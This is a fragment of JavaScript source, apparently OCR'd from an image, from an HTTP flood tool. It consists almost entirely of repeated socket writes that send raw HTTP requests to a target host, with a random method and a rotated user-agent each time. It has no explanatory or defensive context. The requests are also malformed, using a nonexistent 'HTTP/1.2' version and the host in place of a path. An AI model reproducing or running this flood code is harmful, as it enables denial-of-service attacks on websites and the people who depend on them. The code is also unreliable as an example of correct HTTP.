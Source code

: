 		s.write('PATCH ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
        const randomMethods = Methods[Math.floor(Math.random() * Methods.length)];
        s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
        s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');